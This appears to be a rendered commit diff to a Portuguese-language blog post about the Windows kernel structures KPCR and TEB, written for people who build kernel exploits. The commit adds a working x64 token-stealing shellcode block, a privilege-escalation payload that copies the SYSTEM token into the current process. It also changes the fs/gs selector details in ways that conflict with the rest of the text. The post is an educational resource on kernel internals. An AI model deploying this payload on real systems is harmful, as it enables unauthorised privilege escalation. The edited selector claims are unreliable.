

Before and after one commit to Everdoh/everdoh.github.io, a Jekyll site: the page built from _posts/2025-04-21-TEB.md, in a window 1280 px wide and 1400 px high, scrolled down 495 px. Shown: the whole window at 92% size, without its empty margins (128-1151 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
removendo lixo

````diff
--- a/_posts/2025-04-21-TEB.md
+++ b/_posts/2025-04-21-TEB.md
@@ -1,11 +1,11 @@
 ---
 layout: post
-title: "Hermits of the Kernel Caves: Unraveling KPCR and TEB in Windows"
+title: "Hermits of the Kernel Caves: Unraveling KPCR in Windows"
 date: 2025-04-21 10:00:00 +0000
 tags: [Exploit, Windows, TEB, KPCR]
 ---
 
-### Hermits of the Kernel Caves: Unraveling KPCR and TEB in Windows
+### Hermits of the Kernel Caves: Unraveling KPCR in Windows
 
 > _"All knowledge is connected to all other knowledge. The fun is in making the connections." – Arthur C. Aufderheide_
 
@@ -13,73 +13,61 @@ tags: [Exploit, Windows, TEB, KPCR]
 
 Introdução
 
-Dentro das cavernas do kernel do Windows, encontramos duas estruturas que nos guiam na travessia: **KPCR** e **TEB**. Esta é uma história contada de trás para frente, assim como ocorre na prática — onde o sintoma leva ao diagnóstico, e não o contrário.
+Dentro do kernel do Windows, encontramos duas estruturas intrigantes **KPCR** e **TEB**. Esta é uma história contada de trás para frente, assim como ocorre na prática — onde o sintoma leva ao diagnóstico, e não o contrário.
 
-Se você constrói exploits de kernel, já sabe: payloads com o propósito de escalação de privilégio que usam o roubo de token, são o pão de cada dia. Mas em cada nova versão do Windows, offsets mudam, estruturas ganham novos membros — e seu exploit pode parar de funcionar.
+Para quem constrói exploits no kernel do Windows, sabe da importância de um payload que consiga escalar privilégio de maneira eficiente e correta. E para cada nova versão dos sistemas operacionais, novos offsets e estruturas podem surgir, e com isso possivelmente o payload deixará de ser funcional.
 
-Portanto, ao invés de esperar por artigos ou dumps no GitHub, devemos conhecer as primitivas do kernel a fundo. E para isso, precisamos entender como o kernel e o user-mode se comunicam por estruturas como KPCR e TEB.
+Copiando o payload escrito aqui - https://keramas.github.io/2020/06/21/Windows-10-2004-EPROCESS-Structure.html. Observe quantas estruturas e endereços são acessados.
+
+```
+; Windows 10 x64 2004 Token Stealing Payload
+
+[BITS 64]
+
+__start:
+    xor rax, rax
+    mov rax, [gs:0x188] ; Current thread -> _KTHREAD
+    mov rax, [rax + 0xb8]   ; Current process -> _EPROCESS
+    mov r8, rax     ; Move current process' _EPROCESS to r8
+
+__loop:
+    mov rax, [rax + 0x448]  ; ActiveProcessLinks
+    sub rax, 0x448      ; Return to current process -> _EPROCESS
+    mov rcx, [rax + 0x440]  ; UniqueProcessId (PID)
+    cmp rcx, 4      ; Compare PID to SYSTEM process PID (0x4)
+    jnz __loop      ; Iterate over EPROCESS nodes until SYSTEM PID is located
+
+    mov r9, [rax + 0x4b8]   ; _EPROCESS + 0x4b8 -> token
+    mov [r8 + 0x4b8], r9    ; Copy SYSTEM token to current process
+
+```
+
+É preciso compreender quais os caminhos a serem seguidos e as estruturas primitivas do Kernel. Pois caso o payload deixe de funcionar, não vamos esperar que alguem publique na internet algo novo, devemos nós mesmos criar nosso payload. Mas o propósito desse texto não é sobre payloads para exploits e sim sobre, conhecer as estruturas do Kernel do Windows.
+
+Portanto, ao invés de esperar por artigos ou dumps no GitHub, devemos conhecer as primitivas do Kernel a fundo.
 
 ---
 
 KPCR – Kernel Processor Control Region
 
-A **KPCR** é uma das primeiras estruturas acessadas pelo kernel. Ela contém dados cruciais sobre o processador atual, ponteiros para listas de threads, clocks, e o componente **KPRCB** (Kernel Processor Control Block), usado internamente pelo `ntoskrnl.exe`.
+A **KPCR** é uma das primeiras estruturas acessadas pelo kernel. Ela contém dados importantes sobre o processador. O KPCR contém ponteiros para listas de threads, clocks, e o componente **KPRCB** (Kernel Processor Control Block), usado internamente pelo `ntoskrnl.exe`.
 
-- Em sistemas **32-bit**, a KPCR é acessada via 'fs'.
+Não, a KPCR não inclui diretamente o número de cores. Ela traz informações contextuais do processador lógico atual, úteis para o gerenciamento de threads, interrupções e execução em nível de kernel.
+
+Não confundir KPRCB E KPCR. KPRCB é uma estrutura contida em KPCR.
+
+- Em sistemas **32-bit**, via 'fs'.
 - Em sistemas **64-bit**, via 'gs'.
 
-Essa estrutura também fornece acesso indireto à thread atual, por meio de ponteiros que levam até o **KTHREAD**, e dele para a **TEB**.
+Essa estrutura também fornece acesso indireto à thread atual, por meio de ponteiros que levam até a **KTHREAD**, e dele para a **TEB**.
 
----
+Uma instrução comum de ser avistada em assembly é a seguinte:
 
-TEB – A Mente da Thread
-
-A **Thread Environment Block** é a representação em modo usuário de uma thread. Cada thread que entra em user-mode possui sua própria TEB. Ela contém:
-
-- Stack base e limite
-- TLS (Thread Local Storage)
-- Ponteiro para exceções
-- Identificadores de processo e thread
-- Ponteiro para si mesma em `NtTib.Self`
-
-#ifdef _WIN64
-    PTEB teb = (PTEB)__readgsqword(0x30);
-#else
-    PTEB teb = (PTEB)__readfsdword(0x18);
-#endif
-
-
-Ou via Windbg:
-
-```bash
-!teb
+```asm
+push dword ptr gs:0
 ```
 
-```text
-TEB at 0x249000
-```
-
-A TEB começa com a estrutura **NT_TIB**, que inclui informações sobre tratamento de exceções e pilhas.
-
----
-
-Cada Thread, Sua TEB
-
-Cada nova thread criada por um processo recebe sua própria TEB. Isso assegura isolamento de contexto, gerenciamento de exceções, e acesso exclusivo ao TLS. No modo kernel, cada **KTHREAD** possui um campo 'Teb' com o ponteiro para a TEB respectiva.
-
-```c
-PVOID PsGetThreadTeb(PETHREAD Thread);
-```
-
-Descobrindo a TEB de Trás pra Frente
-
-Debugando uma aplicação, vemos instruções como:
-
-```asm
-push dword ptr fs:0
-```
-
-Isso aponta para o início da TEB (mais precisamente, da `NT_TIB`). E o seletor `fs` em modo usuário é carregado com o valor `0x003B` (ring 3), que aponta para a entrada `0x0038` da **GDT**, conhecida como `KGDT_R3_TEB`.
+Isso aponta para o início da TEB (mais precisamente, da `NT_TIB`). E o seletor `gs` em modo usuário é carregado com o valor `0x003B` (ring 3), que aponta para a entrada `0x0038` da **GDT**, conhecida como `KGDT_R3_TEB`.
 
 No x64:
 - `fs` aponta para a TEB 32-bit em ambientes WoW64 (selector `0x0053`)
@@ -128,6 +116,49 @@ typedef struct _TEB {
 
 ---
 
+TEB – A Mente da Thread
+
+A **Thread Environment Block** é a representação em modo usuário de uma thread. Cada thread que entra em user-mode possui sua própria TEB. Ela contém:
+
+- Stack base e limite
+- TLS (Thread Local Storage)
+- Ponteiro para exceções
+- Identificadores de processo e thread
+- Ponteiro para si mesma em `NtTib.Self`
+
+#ifdef _WIN64
+    PTEB teb = (PTEB)__readgsqword(0x30);
+#else
+    PTEB teb = (PTEB)__readfsdword(0x18);
+#endif
+
+
+Ou via Windbg:
+
+```bash
+!teb
+```
+
+```text
+TEB at 0x249000
+```
+
+A TEB começa com a estrutura **NT_TIB**, que inclui informações sobre tratamento de exceções e pilhas.
+
+---
+
+Cada Thread, Sua TEB
+
+Cada nova thread criada por um processo recebe sua própria TEB. Isso assegura isolamento de contexto, gerenciamento de exceções, e acesso exclusivo ao TLS. No modo kernel, cada **KTHREAD** possui um campo 'Teb' com o ponteiro para a TEB respectiva.
+
+```c
+PVOID PsGetThreadTeb(PETHREAD Thread);
+```
+
+Descobrindo a TEB de Trás pra Frente
+
+
+
 Conclusão
 
 A jornada pelo kernel do Windows é tola e gratificante. Entender as ligações entre KPCR, KPRCB, KTHREAD e TEB é fundamental para quem trabalha com engenharia reversa, desenvolvimento de exploits ou análise de malwares. O conhecimento dessas estruturas é o que permite adaptar ferramentas e seguir explorando as cavernas do kernel — de trás pra frente, como a vida real exige.
````
Also changed, not shown: _posts/2025-03-12-post-test.md (deleted, +0 -17 lines), _posts/2025-03-12-welcome-to-jekyll.markdown (deleted, +0 -29 lines).
